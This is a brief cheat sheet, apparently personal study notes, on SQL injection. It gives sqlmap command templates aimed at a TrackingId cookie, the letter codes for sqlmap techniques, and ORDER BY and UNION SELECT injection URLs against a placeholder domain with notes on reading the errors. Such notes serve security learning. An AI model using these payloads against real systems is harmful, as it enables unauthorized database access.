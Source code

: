 # sqlmap command to attack 

`sqlmap -u "url" -p cookies="TrackingId=*" --technique=`

`sqlmap -r req.txt -p cookies="TrackingId=*" --technique=`


The list of techniques with its letters is as follows:

    B: Boolean-based blind
    E: Error-based
    U: Union query-based
    S: Stacked queries
    T: Time-based blind
    Q: Inline queries


# sql injection payload for error based technique


`http://domain.com/index.php?id=1' order by 1-- -`


1. This query musn't shows up error, since there is no lower number than 1
2. order by 1: mean arrage the result in asscending order by the first column of the table


`http://domain.com/index.php?id=xyz' UNION SELECT 1--`


1. return **ERROR: UNION types character varying and integer cannot be matched** mean id's type is character while 1 is type of integer
